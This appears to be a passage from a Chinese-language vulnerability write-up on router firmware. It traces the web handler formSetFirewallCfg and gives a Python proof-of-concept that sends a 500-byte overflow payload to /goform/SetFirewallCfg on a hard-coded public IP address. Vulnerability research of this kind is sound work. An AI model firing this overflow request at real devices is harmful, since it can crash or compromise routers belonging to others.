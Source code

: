 接下来就是要验证下 formSetFirewallCfg 这个函数是否用户可控，是否有利用的条件。

查看下 formSetFirewallCfg 的引用

[![](assets/1706958084-2065ec5f2404f9a26630b81f1ac8a517.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706714208224-d790da26-dada-4509-b626-83b344f4ef97.png)

结合 web 交互的 http 流量包以及 websGetVar 函数名，可以猜到 formSetFirewallCfg 是 web 传参用的函数，openSchedWifi 就是构造 url 访问的接口名，一级目录名为 goform。

[![](assets/1706958084-9b3fecb95653c67069799cd6440f28be.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706605993344-db9473ca-e346-4af0-b09d-84560560afe4.png)

因此，我们构造请求，尝试下是否可以触发溢出

```bash
import requests

url = "http://47.98.137.248/goform/SetFirewallCfg"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=rtp5gk"
}

payload = "A" * 500
data = {"firewallEn": payload}
response = requests.post(url, headers=header, data=data, timeout=5)
response = requests.post(url, headers=header, data=data, timeout=5)
print(response.text)
```

